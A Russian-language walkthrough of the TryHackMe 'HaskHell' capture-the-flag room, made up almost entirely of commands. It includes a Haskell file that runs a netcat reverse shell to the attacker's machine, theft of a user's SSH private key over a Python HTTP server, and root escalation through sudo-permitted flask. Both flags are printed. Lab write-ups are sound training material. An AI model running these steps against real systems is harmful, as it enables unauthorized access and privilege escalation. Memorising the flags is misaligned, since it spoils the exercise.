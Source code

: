 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [HaskHell](https://tryhackme.com/r/room/haskhell) 

Всего 1 заданиe:
## Задание 1
Покажите своему профессору, что его докторская степень не находится под охраной.

Пожалуйста, отправляйте комментарии/опасения/письма с ненавистью на адрес @passthehashbrwn в Twitter.

### Ответьте на вопросы ниже
Получите флаг в файле user.txt.

```commandline
sudo nmap -sSCV <IP>
http://<IP>:5001/submit

#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 4444 >/tmp/f"


nc -nlvp 4444
whoami
id
ls -la /home
cd /home/prof/.ssh/
ls -la
which python3
python3 -m http.server
wget http://<IP>:8000/id_rsa

chmod 600 id_rsa
ssh -i id_rsa prof@<IP>
cat /home/prof/user.txt
```
```commandline
flag{academic_dishonesty}
```
Получите флаг в root.txt
```commandline
SHELL=/bin/bash script -q /dev/null
sudo -l
ls -l /usr/bin/flask
file /usr/bin/flask
cat /usr/bin/flask
python3 /usr/bin/flask


cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF

export FLASK_APP=shell.py
sudo /usr/bin/flask run
whoami
cat /root/root.txt
```

```commandline
flag{im_purely_functional}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)